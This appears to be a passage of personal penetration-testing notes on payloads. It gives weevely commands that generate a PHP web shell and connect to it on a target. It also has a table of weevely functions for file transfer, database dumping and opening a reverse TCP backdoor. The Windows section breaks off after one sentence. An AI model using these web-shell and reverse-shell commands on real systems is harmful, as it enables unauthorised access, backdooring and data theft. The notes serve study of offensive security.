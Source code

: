 
# Payloads 

In information security, the payload is the command and/or code that exploits the vulnerability in an OS and/or application. Keep in mind that when we deliver and execute payloads, just like any other program, we give the target computer instructions on what it needs to do. We can use [Metasploit](https://zeropio.github.io/notes/tools/metasploit) to generate and execute payloads.

## MSFvenom

We can use this Metasploit command to generate our payloads. More info [here](https://zeropio.github.io/notes/tools/metasploit#payloads).

## weevely

To generate a shell:
```console
$ weevely generate <PASSWORD> <OUTPUT FILE>
$ weevely http://<TARGET>/shell.php <PASSWORD>
```

We can use `:help` inside the weevely shell to get some functions. We can use `-h` in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
```console
$ :shell_sh -v [option] [command]
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `:file_download <REMOTE PATH> <LOCAL PATH>` | Download files |
| `:file_upload <LOCAL PATH> <REMOTE PATH>` | Upload files |
| `:file_read <LOCAL PATH>` | Read a file |
| `:sql_console` | Spawn SQL console |
| `:sql_dump -host <IP> -lpath <LOCAL PATH> <USER> <PASSWORD>` | Dump a db into a file (if the db doesn't have a password we should use `''` instead). |
| `:backdoor_reversetcp <LHOST> <LPORT>` | cCeate a reverse shell (we need to add a `;` after each command) |

> If any option doesn't work we can use **-vector [option]** to change the attack.
{: .prompt-tip}

---

# Targeting Systems 

## Windows 

Over the last few years, several vulnerabilities in the Windows operating system and their corresponding attacks are some of the most exploited vulnerabilities of our time:
